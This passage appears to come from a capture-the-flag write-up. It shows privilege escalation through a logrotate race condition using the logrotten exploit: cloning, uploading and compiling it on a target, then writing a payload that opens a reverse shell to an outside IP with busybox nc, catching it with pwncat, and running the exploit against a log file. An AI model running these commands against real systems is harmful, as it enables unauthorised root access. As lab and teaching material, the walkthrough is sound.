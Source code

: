 ![logrotate](./pic/logrotate.png)
	
This means we can maybe try the logrotten exploit with this [race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).<br>
So i downloaded the logrotten repo and passed the binary on the victim machine since it has gcc installed.<br>
```bash
git clone https://github.com/whotwagner/logrotten.git
```
now i uploaded the c source file to the victim machine:
```bash
Ctrl + d
upload logrotten.c /tmp/logrotten.c
Ctrl + d
```
Now we can compile it on victim machine:
```bash
gcc logrotten.c -o logrotten
```
	
![compile](./pic/compile.png)
	
We compiled the binary and also tested that the version is vulnerable (3.15.0).<br>
for the exploit we need to create another payload to get executed:
```bash
echo -e '#!/bin/bash\nbusybox nc 10.8.79.118 5555 -e bash' > /tmp/payload.sh
chmod +x /tmp/payload.sh
```
We can now start another listener on our local machine:
```bash
pwncat-cs -lp 5555
```
To launch the exploit we need toleverage on of the files we saw above in the rsync command, so the final payload will be:
```bash
./logrotten -p payload.sh /home/plot_admin/.logs_backup/moodle_access
```
We finally have our call back!!